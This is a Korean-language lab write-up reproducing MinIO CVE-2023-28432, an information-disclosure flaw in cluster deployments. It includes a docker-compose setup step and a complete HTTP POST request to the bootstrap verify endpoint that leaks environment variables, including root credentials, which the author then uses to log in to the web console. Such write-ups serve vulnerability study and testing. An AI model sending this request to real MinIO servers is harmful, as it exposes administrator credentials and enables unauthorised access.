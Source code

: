 # MinIO Information Disclosure in Cluster Deployment (CVE-2023-28432)

**Contributor**
- [이준호(B1ackCat)](https://github.com/B1ackCat)

MinIO는 GNU affero General Public License v3.0에 따라 출시된 고성능 개체 스토리지입니다.

`RELEASE.2023-03-20T20-16-18Z`이전 버전에서는 MinIO가 클러스터 모드로 배포되는 경우 정보 공개 취약점이 있습니다. 공격자는 HTTP 요청을 사용하여 MINIO_SECRET_KEY, MINIO_ROOT_PASSWORD를 포함한 대상 프로세스의 모든 환경 변수를 얻을 수 있습니다.

# Vulnerable Enviroment

다음 명령을 실행하여 MinIO 클러스터를 시작합니다.
```
docker-compose up -d
```
클러스터가 시작된 후, `http://your-ip:9001`의 웹 콘솔, `http://your-ip:9000`의 API 서버를 탐색할 수 있습니다.

# Vulnerability Reproduce

API endpoint `http://your-ip/minio/bootstrap/v1/verify`에 문제가 있습니다. 모든 환경 변수를 검색하라는 요청을 보냅니다.
```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
![](1.png)
`MINIO_ROOT_USER`, `MINIO_ROOT_PASSWORD`가 노출되어 있는 것을 확인할 수 있습니다.

이 사용자 이름과 비밀번호를 이용하여 웹 콘솔에 로그인하는 데 성공했습니다.
![](2.png)

